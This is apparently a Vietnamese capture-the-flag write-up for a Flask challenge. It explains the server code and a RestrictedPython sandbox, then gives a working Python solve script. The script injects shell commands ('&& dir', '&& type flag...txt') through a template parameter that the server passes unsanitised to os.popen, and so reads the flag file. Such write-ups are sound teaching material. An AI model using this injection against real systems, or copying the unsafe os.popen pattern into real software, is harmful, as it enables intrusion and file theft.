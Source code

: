 
![image](https://github.com/user-attachments/assets/5e5376be-2196-47fa-ba83-f091a8b23d3b)

Đầu tiên thì trong file server.py

Đây là một ứng dụng web Flask.
Đường dẫn /: Phục vụ static/index.html.
Đường dẫn /static:
Phục vụ các file tĩnh, đặc biệt là các file .tmpl.
Nó kiểm tra xem fpath được yêu cầu có tồn tại trong thư mục static và kết thúc bằng .tmpl hay không. Nếu không, nó mặc định là 🐈.tmpl.
Có một kiểm tra về "quá nhiều biểu tượng cảm xúc" (các ký tự có ord(c) > 127) trong URL.

![image](https://github.com/user-attachments/assets/09d51cda-72af-4fca-95eb-409d606bd03f)

Đường dẫn /ti-84: Đây là trọng tâm của thử thách.
Nó nhận hai tham số: code và tmpl.
Tham số code:
Có giới hạn độ dài (len(code) > 3) và kiểm tra sự hiện diện của các chữ số và các toán tử số học cơ bản (0-9+-*/). Nếu các điều kiện này được đáp ứng, nó sẽ trả về lỗi. Điều này cho thấy các biểu thức toán học trực tiếp không phải là cách khai thác được mong muốn.
code được chèn vào code_tmpl.py.
Tham số tmpl:
Tham số này được sử dụng để xây dựng một lệnh curl.exe để tìm nạp file mẫu từ điểm cuối /static.
Mẫu đã tìm nạp (out_tmpl) phải chứa {{out}}, nếu không, lỗi sẽ được trả về.
Thực thi mã:
code_tmpl đã sửa đổi (với code do người dùng cung cấp) được ghi vào một file Python tạm thời (tmpfile.py).
file tạm thời này sau đó được thực thi bằng python.exe.
Đầu ra chuẩn (stdout) và lỗi chuẩn (stderr) của tập lệnh Python được thực thi được ghi lại.
Cuối cùng: result đã ghi lại (đầu ra từ tập lệnh Python được thực thi) sau đó được thay thế vào out_tmpl đã tìm nạp tại chỗ giữ chỗ {{out}}

Tiếp theo là file code_tmpl.py

file này đóng vai trò là mẫu cho mã Python sẽ được thực thi.
Nó sử dụng RestrictedPython.compile_restricted để biên dịch code do người dùng cung cấp.
byte_code đã biên dịch sau đó được thực thi bằng eval.
Quan trọng là, __builtins__ được đặt rõ ràng thành một từ điển trống {}, điều này hạn chế nghiêm ngặt các hàm và đối tượng có thể được truy cập bởi mã được thực thi. Đây là một cơ chế sandbox.

![image](https://github.com/user-attachments/assets/06ad1bb2-7a7c-439f-894f-1aa3f252cc60)

Đầu tiên là file solve.py

```
import requests
import sys

target = sys.argv[1]
target = target.replace("http://", "").replace("https://", "")
target = "http://" + target


def exploit(cmd):
    return requests.get(target + "/ti-84", params={
        "code": "1+1",
        "tmpl": f"🐈.tmpl && {cmd} && echo "
    }).text

flag_path = exploit("dir").split("flag")[1].split(".txt")[0].strip()
flag_path = "flag" + flag_path + ".txt"
flag = exploit(f"type {flag_path}").split(".;,;.")[1].split("}")[0].strip()
print(f"Flag: .;,;.{flag}}}")
```

Tập lệnh này thể hiện một lỗ hổng chèn lệnh cơ bản.
Nó nhắm mục tiêu điểm cuối /ti-84.
Tham số tmpl được tạo để chèn các lệnh bằng cách sử dụng && và echo để trích xuất thông tin.
Đầu tiên, nó sử dụng dir để tìm tên file flag (giả sử nó chứa "flag" và kết thúc bằng ".txt").
Sau đó, nó sử dụng type để đọc nội dung của file flag.
Lỗ hổng ở đây nằm ở cách output_tmpl được sử dụng trong lệnh gọi os.popen trong server.py mà không có sự làm sạch thích hợp, 
cho phép chèn lệnh thông qua tham số tmpl. Cụ thể, os.popen(f"curl.exe -s {url}").read() lấy url, bao gồm output_tmpl do người dùng kiểm soát, 
cho phép chèn lệnh nếu output_tmpl chứa các ký tự meta của shell.

![image](https://github.com/user-attachments/assets/2857eb43-9843-4349-8c12-7b7d0e5e8b17)

Chạy file là ra được flag

